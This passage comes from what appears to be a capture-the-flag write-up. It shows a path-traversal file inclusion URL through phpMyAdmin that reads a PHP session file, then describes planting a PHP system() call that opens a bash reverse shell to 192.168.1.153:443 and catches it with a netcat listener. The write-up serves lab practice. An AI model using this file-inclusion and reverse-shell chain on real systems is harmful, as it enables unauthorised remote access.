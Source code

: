 We copy the previous address of our exploit along with our cookie in this way:

![](/assets/post/Presidential/session.png)

```bash
`datasafe.votenow.local/index.php?target=db_sql.php%253f/../../../../../var/lib/php/session/sess_qdis9rl7janb6e6l4fh4fli353kcidg

```
## Post-exploitation

We run the following SQL query:

![](/assets/post/Presidential/sqlphp.png)



**PHP Command**:
- The command uses `<?php system(...) ?>`, a PHP function that allows the execution of system commands. In this case, the `system` function is used to initiate a reverse shell.

- **Reverse Shell**:
- The reverse shell is configured to connect to the IP `192.168.1.153` on port `443`, redirecting input and output to enable remote access to the system.
- In this case, the reverse shell is executed through the `bash -i` command, which starts an interactive shell and redirects input (`>&`) and output to `/dev/tcp/192.168.1.153/443`.

We start listening on port 443:

![](/assets/post/Presidential/nc.png)